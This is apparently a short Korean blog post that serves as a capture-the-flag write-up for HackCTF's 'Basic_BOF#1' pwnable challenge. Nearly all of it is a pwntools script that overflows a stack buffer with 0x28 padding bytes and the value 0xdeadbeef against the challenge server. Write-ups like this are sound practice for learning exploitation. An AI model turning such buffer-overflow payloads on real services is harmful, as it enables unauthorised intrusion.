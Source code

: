 ```yaml
---
title: "[HackCtf] Basic_BOF#1"
date: 2020-06-29
ctf: HackCTF
tag: [pwnable]
layout: post
---
```


<span class="color-blue">HackCTF</span>의 첫 번째 <span class="color-blue">Pwnable</span> 문제로 <span class="color-blue">bof</span>를 이용한다.
{% highlight python %}
from pwn import *
 
p = remote("ctf.j0n9hyun.xyz", 3000)
 
p.sendline("0"*0x28+p32(0xdeadbeef))
p.interactive()
{% endhighlight %}
